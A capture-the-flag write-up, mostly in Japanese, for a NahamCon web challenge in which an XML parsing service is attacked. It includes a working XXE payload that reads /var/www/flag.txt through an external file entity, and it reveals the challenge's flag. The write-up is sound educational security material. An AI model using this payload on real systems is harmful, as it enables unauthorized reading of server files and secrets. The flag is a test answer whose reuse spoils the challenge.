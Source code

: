 # EXtravagant:Web:50pts
**I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.**  
**The flag is in /var/www**  

**Connect with:**  
- [http://challenge.nahamcon.com:30863](http://challenge.nahamcon.com:30863/)  

# Solution
URLにアクセスすると謎のサイトのようだ。  
EXtravagant XML  
[Home](site/home.png)  
フラグは`/var/www`にあり、XMLをパースするサービスのようである。  
[Trial](site/trial.png)でXMLファイルをアップロードし、[View](site/view.png)でファイル名を指定して確認できるらしい。  
XXEを狙う。  
`/var/www`にフラグがあるようなので以下に示すxxe.xmlで`/var/www/flag.txt`を読み取る。  
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///var/www/flag.txt" >]><foo>&xxe;</foo>
```
アップロードし、読み取るとflagが得られた。  
flag  
[flag.png](site/flag.png)  

## flag{639b72f2dd0017f454c44c3863c4e195}